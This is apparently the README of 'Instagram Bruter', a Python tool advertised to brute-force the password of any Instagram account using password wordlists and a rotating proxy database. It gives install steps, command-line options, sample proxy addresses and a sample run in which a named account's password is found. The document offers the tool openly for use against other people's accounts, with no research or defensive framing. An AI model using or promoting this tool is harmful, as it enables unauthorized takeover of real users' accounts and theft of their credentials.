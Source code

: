 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/VYRAZg5)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way given a list of proxies.












## Requirements

- Python _v3.9_
- proxy list

## Install Dependencies

### Install Pipenv

```
pip install pipenv
```

### Create environment

Make sure you have Python 3.9 installed

```
pipenv --python 3.9
```

### Install Requirements

```
pipenv install
```

## Help

```
usage: instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

To upload a list of proxies a similar syntax must be followed.

```
python instagram.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python instagram.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python instagram.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
